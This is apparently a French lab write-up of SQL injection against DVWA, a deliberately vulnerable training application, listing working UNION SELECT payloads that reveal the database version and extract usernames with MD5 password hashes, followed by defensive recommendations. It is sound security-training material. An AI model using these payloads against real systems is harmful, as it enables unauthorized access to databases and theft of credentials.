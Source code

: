 # 🔓 SQL Injection - DVWA

## Cible :
http://192.168.1.42:4280/vulnerabilities/sqli/

## Niveau de sécurité DVWA : Low

### 🔍 Objectif :
Extraire les utilisateurs présents dans la base DVWA via une faille d'injection SQL classique.

### 1. Injection de test :
`1' OR '1'='1`
✅ Résultat : liste complète des utilisateurs

### 2. Informations sur le SGBD :
- `1' UNION SELECT null, version() --` → erreur SQL donc on essaye avec autre chose
- `1' UNION SELECT null, version() -- 'OR '1'='1` → bingo ça fonctionne: 10.11.11-MariaDB-ubu2204
- `1' UNION SELECT null, database() -- 'OR '1'='1` → dvwa


### 3. Extraction de données :
- `1' UNION SELECT user, password FROM users -- 'OR '1'='1`
✅ Résultat : noms + hash MD5 des mots de passe

### 🔐 Analyse :
L’entrée n’est pas filtrée côté serveur, permettant une injection SQL directe. Aucun mécanisme de sécurité n’est présent à ce niveau de DVWA.

### 🔧 Recommendations :
- Utiliser des requêtes préparées pour éviter les injections SQL.
- Valider et échapper les entrées utilisateur.
- Mettre en place un système de journalisation pour détecter les tentatives d'injection.

### Aller plus loin :
![image](https://github.com/user-attachments/assets/08631c38-44c3-4320-bd81-3470410749eb)
